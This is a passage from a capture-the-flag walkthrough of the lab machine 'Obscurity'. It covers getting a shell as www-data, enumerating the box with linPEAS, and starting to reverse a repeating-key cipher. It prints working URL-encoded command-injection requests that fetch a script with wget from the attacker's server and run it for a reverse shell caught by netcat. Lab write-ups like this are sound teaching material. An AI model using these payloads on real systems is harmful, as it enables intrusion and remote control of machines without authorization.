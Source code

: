 Now, to confirm that our RCE is working in the remote box, you can make it ping your own IP:

![](images/Obscurity_7.png?raw=true)

I get a bunch of ICMP ping requests.

To get a shell, what I did was to upload a python script and ran it to get a reverse shell while listening at port 4444

```
kali1$  python3 -m http.server 8081
kali2$  curl http://10.10.10.168:8080/index.html%27%3bos.system%28%27wget%20http%3a%2f%2f10.10.14.145%3A8081%2fscript.py%27%29%3boutput%3d%27Document%3a%20index.html
kali1$  nc -lvnp 4444
kali2$  curl http://10.10.10.168:8080/index.html%27%3bos.system%28%27python3%20script.py%27%29%3boutput%3d%27Document%3a%20index.html
```

## Getting to user

The shell we got, we got it as ```www-data```. I uploaded [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) and ran it. I realized in the results that ```/home/robert``` was readable.

In there, there's a couple of interesting files
- check.txt: there’s a note here
- out.txt: cipher text
- passwordreminder.txt: cipher text
- SuperSecureCrypt.py: encryption/decryption script
- BetterSSH folder

```
www-data$  cat /home/robert/check.txt
Encrypting this file with your key should result in out.txt, make sure your key is correct!
```

Ok, it’s clear now that what we need to do is to reverse the encryption key to be able to decrypt the cipher in ```passwordreminder.txt```. We just need to take a look at the python script. 
The encryption was just a couple of basic operations using a key that had no restrictions as to its minimal length. Characters were encrypted one by one, using only one character of the key at a time. If the key wasn’t long enough, it would repeat itself. Kind of a very old encryption method, I don’t recall now how they are called. If the key was "hello", it would keep concatenating it "hellohellohello" as needed for each of the input characters.
